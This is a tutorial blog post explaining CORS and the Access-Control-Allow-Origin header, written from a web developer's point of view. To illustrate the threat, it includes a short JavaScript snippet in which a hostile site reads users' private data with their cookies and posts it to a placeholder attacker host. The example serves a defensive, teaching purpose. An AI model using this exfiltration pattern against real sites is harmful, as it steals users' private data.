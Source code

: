 ```yaml
---
layout: blog
title: "CORS: Access-Control-Allow-Origin whut?!"
draft: false
date: 2023-11-21T17:45:00.000Z
date_updated: 2023-11-21T17:45:00.000Z
featured_image: /media/uploads/tanja-cotoaga-hvcXgf9rYKc-unsplash.jpg
page_bg: linear-gradient(to right,#c0a3c7,#3a60d3)
excerpt: CORS can seem like a super tricky and complex topic to wrap your head around, but in reality, it's not as hard as it appears.
---
```

## A Summary
CORS restrictions are a way of telling a user's browser that data should be protected from code running on a website, and asking the browser to place restrictions on that code to keep the data safe.

## Understanding the problem

*This section will explain the problem that CORS restrictions were invented to resolve. Feel free to skip this if you're happy that you understand why CORS is important.*

Imagine you have a website, let's call it `example.com`. You want to load some data from your API. How would you do it?

You might decide to do something like this.
```js
const data = await fetch('https://example.com/api/data');
```
This is great. Simple, and it works. Now let's imagine you add authentication. Let's say you implement some kind of API key. What would your fetch look like now?
```js
const myToken = '5Up3Rs3cr374PiK3Y';
const data = await fetch('https://example.com/api/data', {
  headers:  {
    Authorization: 'Bearer ' + myToken
  }
});
```
Cool. That works nicely. But then I decide to set up some more complex authentication and everyone has their own token. Maybe it's just easier to store that as a cookie? That's going to make it a lot easier, because now I can do this again:
```js
const data = await fetch('https://example.com/api/data');
```
My browser *automatically knows* to attach cookies from `example.com` to every request.

Great, so now I'm cooking with gas, I can fetch data from my API super easily.

But now I decide that for some reason I need to move my API to a different server, and that server is going to be hosted at `api.example`.

Now I can update my fetch to 
```js
const data = await fetch('https://api.example/api/data');
```
All good, users have to sign in again because the cookies from `example.com` don't get sent to `api.example`, but otherwise, everything is going smoothly.
Except wait, now someone has set up a site called `stolen-content.example`. I check their code, and they're just using my back-end for their own purposes!

*How to protect your users from credential theft will be the topic of another post in future, but for now, please just assume that your backend is configured properly to stop your users' authentication cookies leaking.*

But it gets worse, I find out that they're requesting data which is private for my users!:
```js
const data = await fetch('https://api.example/api/my_users_secret_data');
```
And my server is happily sending the data, because the user is sending a credentialled request!

Oh no, it's even worse than I thought... look at the next line:
```js
const data = await fetch('https://api.example/api/my_users_secret_data');
const json = await data.json();
fetch('https://stolen_content.example/save_secret_data', {
  method: POST,
  body: JSON.stringify(json)
});
```
They're  saving our users' data to their own database! How can we stop them?!

## CORS
Browser developers realised that the above problem is something that it's difficult for an application developer to stop. The browser is issuing a request with a legitimate cookie attached to it. How could the application know that it's being done with malicious intent? The real underlying problem here is that the end user, who is just trying to browse the internet is executing code on their browser that they don't understand, and that could be written by anyone.

So how do we protect users from the code that they're running? Enter CORS. Browser developers told application developers that they will implement some logic that application developers can rely on.  The application developer can tell the browser where they want to allow their requests to come from. This is the `Access-Control-Allow-Origin` header.

Here are some examples:
```
Access-Control-Allow-Origin: *
// This data can be requested by anyone
Access-Control-Allow-Origin: https://example.com
// This data should only be requested by people browsing https://example.com
```

Now, if a user is on `stolen-content.example` and their browser requests data from my API, then their request will fail with a CORS error, and the code to steal the users' secret data will fail.

*Note that all of this assumes that the user's browser properly respects the CORS header, and that we don't have to worry about the user using a compromised browser, and nor do we have to worry about the user trying to steal their own information. CORS only solves the problem of untrusted developers being allowed to run code on your computer through your browser, potentially with access to secret information.*

## Further reading
CORS actually has some other sensible protections (for example, you can't use `Access-Control-Allow-Origin: *` with a credentialled request, you can tell the browser not to share headers or not to allow specific methods, etc.). I'd recommend you start with [the MDN docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin).
